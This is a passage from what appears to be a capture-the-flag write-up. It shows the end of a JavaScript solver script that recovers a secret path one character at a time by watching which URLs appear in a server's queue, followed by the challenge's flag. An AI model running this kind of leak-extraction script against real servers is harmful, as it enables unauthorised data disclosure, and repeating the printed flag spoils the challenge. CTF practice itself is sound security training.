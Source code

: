 ```js
        console.log("Server dead,waiting 5s");
        await sleep(5000);
      }
    }
    for (let i = 0; i < 100; i++) {
      console.log(`queue length ${queue.length}/35, waiting ${i}/100`);
      if (queue.length === 35) break;
      await sleep(1000);
    }
    if (queue.length < 35) {
      i--;
      continue;
    }
    let ans = "";
    for (const char of chars) {
      let ok = true;
      for (const url of queue) if (url.endsWith(char)) ok = false;
      if (ok) {
        ans = char;
        break;
      }
    }
    if (ans == "") {
      console.error("Failed:no valid char");
    }
    prefix += "/" + ans;
    console.log("Solved to:", prefix);
    queue = [];
  }
})();
```

The flag is `ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}`.